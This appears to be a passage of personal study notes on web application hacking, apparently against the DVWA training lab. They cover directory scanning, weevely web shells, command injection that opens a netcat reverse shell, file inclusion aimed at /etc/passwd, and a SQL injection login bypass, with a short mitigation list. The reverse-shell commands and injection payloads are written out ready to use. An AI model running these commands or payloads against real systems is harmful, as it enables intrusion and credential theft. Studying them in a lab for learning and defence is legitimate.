 18.218.180.98 **loading ip...**

### Discovering Sensitive Files
`man dirb`
`dirb <domain/ip>`

## Exploitation - File Upload Vulns
`weevely generate <password> <path-to-shell.php>`
`weevely <ip+path-to-shell> <password>`
**Now you have access to the machine**

### Discovering & Exploiting Code Execution Vulns
**Netcat** Listen to network on specific port
`nc -vv -l -p <port>`
Execute command on the input box.
First have to figure out how it's executing it.
`; nc -e /bin/sh <ip> <port>`

### Discovering & Exploiting Local File Inclusion Vulns
Look for variables on the navbar where theres a file included.
We want */etc/passwd*.
Look where included file is located. Count down how many directories to go to /etc/passwd

### Remote File Inclusion Vulns. Configuring PHP Settings
#### Configuring Victim
`sudo nano /etc/php5/cgi/php.ini`
Change 'allow_url_include = On'

Restart webserver
`sudo /etc/init.d/apache2 restart`

**Listen for conection**
`nc -e /bin/sh 10.0.2.15 8080`
#### Executing Netcat on File Inclusion
http://10.0.2.5/dvwa/.../?page=http://localhost/reverse.txt?

### Mitigation
1. Only allow safe files to be uploaded. Don't just check the extension.
2. Avoid the users to run code. If allowing, make sure to filter the text
3.  File inclusion: disable allow_url_fopen & allow_url_include
4. Use static file inclusion

## SQL Injections
### Discovery SQL-I in POST
Using the `and`,`order by` or `'`.

MySQL query. `Select * from accounts where username ='$USERNAME' AND password ='$PSSWD'`
Password input: `123456' and 1=1#`
